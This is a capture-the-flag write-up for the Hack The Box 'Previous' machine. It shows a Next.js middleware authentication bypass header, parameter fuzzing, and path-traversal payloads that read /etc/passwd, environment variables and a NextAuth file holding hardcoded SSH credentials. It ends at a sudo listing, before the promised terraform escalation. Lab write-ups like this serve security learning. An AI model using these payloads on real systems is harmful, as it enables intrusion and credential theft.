## TL;DR

We find hidden endpoint `/api/download`, and find the url parameter that we should give in order to download files. Then we get `LFI` and find `jeremy` credentials inside `/app/.next/server/pages/api/auth/[...nextauth].js`. We exploit `/usr/bin/terraform` to achieve privilege escalation by overriding `~/.terraformrc` configuration file, and point to our malicious script.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt
```



we get 2 open ports, port 22 for `ssh` and port `80` for http, nginx server.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://previous.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We'll add `previous.htb` to our `/etc/hosts`.

### Find hidden endpoint and proper parameter

First I start with `gobuster`, however, I don't get anything interesting:
```bash
gobuster dir -u http://previous.htb/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
```


we start playing with the website and notice it uses `NextAuth.js`, after googling, we can find this article [https://strobes.co/blog/understanding-next-js-vulnerability/](https://strobes.co/blog/understanding-next-js-vulnerability/).

It says that in some versions, you need to add this header, in order to bypass authentication.
```bash
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

After trying, we can see it is working



Then, I used `gobuster` to find hidden endpoints:
```bash
┌──(agonen㉿kali)-[~/htb/Previous]
└─$ gobuster dir -u http://previous.htb/api/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt --headers "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://previous.htb/api/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/# license, visit http://creativecommons.org/licenses/by-sa/3.0/ (Status: 308) [Size: 75] [--> /api/%23%20license,%20visit%20http:/creativecommons.org/licenses/by-sa/3.0/]
/download             (Status: 400) [Size: 28]
```



We can see the endpoint `/api/download`, which returns `400`.

As we can see, it wants some filename, probably as url param. However, we don't now what it needs to be, so we'll use `ffuf` to find this desired url param.



I used `/usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt`, and also accepted all status codes, while filtering only those with more then 2 words at response (because this was the regular length)



```bash
┌──(agonen㉿kali)-[~/htb/Previous]
└─$ ffuf -u "http://previous.htb/api/download?FUZZ=aaa" -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" -mc all -fw 2

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://previous.htb/api/download?FUZZ=aaa
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Header           : X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 2
________________________________________________

example                 [Status: 404, Size: 26, Words: 3, Lines: 1, Duration: 425ms]
```

We find `example`, let's check using burp, we can see we get `404` with `File not found`.



### Exploiting LFI to achieve credentials

Now, we try to give `../../../../../../../../etc/passwd` to achieve `LFI`, and we got it.




```bash
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```

Then, we send `../../../../../../../../../proc/self/environ`, which gives us the environment variable:



```bash
NODE_VERSION=18.20.8
HOSTNAME=0.0.0.0
YARN_VERSION=1.22.22
SHLVL=1
PORT=3000
HOME=/home/nextjs
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NEXT_TELEMETRY_DISABLED=1
PWD=/app
NODE_ENV=production
```

Okay, this is production, and using `nextjs`. In addition, current working directory is `/app`.

We can verify that by sending `../../../../../../../../../app` and getting back `"Read error"`, which means this folder exists, and he can't read a folder.

Now, we'll create our dummy project locally, to investigate the structure:
```bash
┌──(agonen㉿kali)-[/tmp]
└─$ npx create-next-app
```



Then, build the app:
```bash
┌──(agonen㉿kali)-[/tmp]
└─$ cd app
                                                                                                                                                                                             
┌──(agonen㉿kali)-[/tmp/app]
└─$ npm run build 
```



Next, we start investing the structure, we first going to `.next` folder, which holds all the rendered `.js` files. We can find the file `routes-manifest.json` inside, which holds all the routing rules

We ask for this path `../../../../../../../../../../../../app/.next/routes-manifest.json` and get back the routing manifest



```json
{
  "version": 3,
  "pages404": true,
  "caseSensitive": false,
  "basePath": "",
  "redirects": [
    {
      "source": "/:path+/",
      "destination": "/:path+",
      "internal": true,
      "statusCode": 308,
      "regex": "^(?:/((?:[^/]+?)(?:/(?:[^/]+?))*))/$"
    }
  ],
  "headers": [],
  "dynamicRoutes": [
    {
      "page": "/api/auth/[...nextauth]",
      "regex": "^/api/auth/(.+?)(?:/)?$",
      "routeKeys": {
        "nxtPnextauth": "nxtPnextauth"
      },
      "namedRegex": "^/api/auth/(?<nxtPnextauth>.+?)(?:/)?$"
    },
    {
      "page": "/docs/[section]",
      "regex": "^/docs/([^/]+?)(?:/)?$",
      "routeKeys": {
        "nxtPsection": "nxtPsection"
      },
      "namedRegex": "^/docs/(?<nxtPsection>[^/]+?)(?:/)?$"
    }
  ],
  "staticRoutes": [
    {
      "page": "/",
      "regex": "^/(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/(?:/)?$"
    },
    {
      "page": "/docs",
      "regex": "^/docs(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/docs(?:/)?$"
    },
    {
      "page": "/docs/components/layout",
      "regex": "^/docs/components/layout(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/docs/components/layout(?:/)?$"
    },
    {
      "page": "/docs/components/sidebar",
      "regex": "^/docs/components/sidebar(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/docs/components/sidebar(?:/)?$"
    },
    {
      "page": "/docs/content/examples",
      "regex": "^/docs/content/examples(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/docs/content/examples(?:/)?$"
    },
    {
      "page": "/docs/content/getting-started",
      "regex": "^/docs/content/getting\\-started(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/docs/content/getting\\-started(?:/)?$"
    },
    {
      "page": "/signin",
      "regex": "^/signin(?:/)?$",
      "routeKeys": {},
      "namedRegex": "^/signin(?:/)?$"
    }
  ],
  "dataRoutes": [],
  "rsc": {
    "header": "RSC",
    "varyHeader": "RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch",
    "prefetchHeader": "Next-Router-Prefetch",
    "didPostponeHeader": "x-nextjs-postponed",
    "contentTypeHeader": "text/x-component",
    "suffix": ".rsc",
    "prefetchSuffix": ".prefetch.rsc",
    "prefetchSegmentHeader": "Next-Router-Segment-Prefetch",
    "prefetchSegmentSuffix": ".segment.rsc",
    "prefetchSegmentDirSuffix": ".segments"
  },
  "rewriteHeaders": {
    "pathHeader": "x-nextjs-rewritten-path",
    "queryHeader": "x-nextjs-rewritten-query"
  },
  "rewrites": []
}
```

Okay, so our base path is `/app/.next/server/pages` (i infer it from my structure, the dummy project i created), and we need to append whatever we want, for example `/signin`, and trying to get `.js` or `.html` file.

Let's try `../../../../../../../../../../../../app/.next/server/pages/signin.html` (.js not working)



and now we want to get `/api/auth/[...nextauth]`, in this case there is only `.js` file:
```bash
../../../../../../../../../../../../app/.next/server/pages/api/auth/[...nextauth].js
```

![get [...nextauth].js](image-14.png)

```js
"use strict";
(() => {
    var e = {};
    e.id = 651, e.ids = [651], e.modules = {
        3480: (e, n, r) => {
            e.exports = r(5600)
        },
        5600: e => {
            e.exports = require("next/dist/compiled/next-server/pages-api.runtime.prod.js")
        },
        6435: (e, n) => {
            Object.defineProperty(n, "M", {
                enumerable: !0,
                get: function() {
                    return function e(n, r) {
                        return r in n ? n[r] : "then" in n && "function" == typeof n.then ? n.then(n => e(n, r)) : "function" == typeof n && "default" === r ? n : void 0
                    }
                }
            })
        },
        8667: (e, n) => {
            Object.defineProperty(n, "A", {
                enumerable: !0,
                get: function() {
                    return r
                }
            });
            var r = function(e) {
                return e.PAGES = "PAGES", e.PAGES_API = "PAGES_API", e.APP_PAGE = "APP_PAGE", e.APP_ROUTE = "APP_ROUTE", e.IMAGE = "IMAGE", e
            }({})
        },
        9832: (e, n, r) => {
            r.r(n), r.d(n, {
                config: () => l,
                default: () => P,
                routeModule: () => A
            });
            var t = {};
            r.r(t), r.d(t, {
                default: () => p
            });
            var a = r(3480),
                s = r(8667),
                i = r(6435);
            let u = require("next-auth/providers/credentials"),
                o = {
                    session: {
                        strategy: "jwt"
                    },
                    providers: [r.n(u)()({
                        name: "Credentials",
                        credentials: {
                            username: {
                                label: "User",
                                type: "username"
                            },
                            password: {
                                label: "Password",
                                type: "password"
                            }
                        },
                        authorize: async e => e?.username === "jeremy" && e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes") ? {
                            id: "1",
                            name: "Jeremy"
                        } : null
                    })],
                    pages: {
                        signIn: "/signin"
                    },
                    secret: process.env.NEXTAUTH_SECRET
                },
                d = require("next-auth"),
                p = r.n(d)()(o),
                P = (0, i.M)(t, "default"),
                l = (0, i.M)(t, "config"),
                A = new a.PagesAPIRouteModule({
                    definition: {
                        kind: s.A.PAGES_API,
                        page: "/api/auth/[...nextauth]",
                        pathname: "/api/auth/[...nextauth]",
                        bundlePath: "",
                        filename: ""
                    },
                    userland: t
                })
        }
    };
    var n = require("../../../webpack-api-runtime.js");
    n.C(e);
    var r = n(n.s = 9832);
    module.exports = r
})();
```

And we can see this line:
```js
authorize: async e => e?.username === "jeremy" && e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes") ? {
```

So, we find the credentials:
```bash
jeremy:MyNameIsJeremyAndILovePancakes
```

Let's connect using `ssh`:

```bash
┌──(agonen㉿kali)-[~/htb/Previous]
└─$ ssh jeremy@$target 

<REDACTED>

Last login: Mon Nov 3 12:40:51 2025 from 10.10.16.107
jeremy@previous:~$ 
```



and grab user flag 
```bash
jeremy@previous:~$ cat user.txt 
f24a19457fe9e859a779b00f14455707
```

### Privilege Escalation to Root using terraform

```bash
jeremy@previous:~$ sudo -l 
Matching Defaults entries for jeremy on previous:
    !env_reset, env_delete+=PATH, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

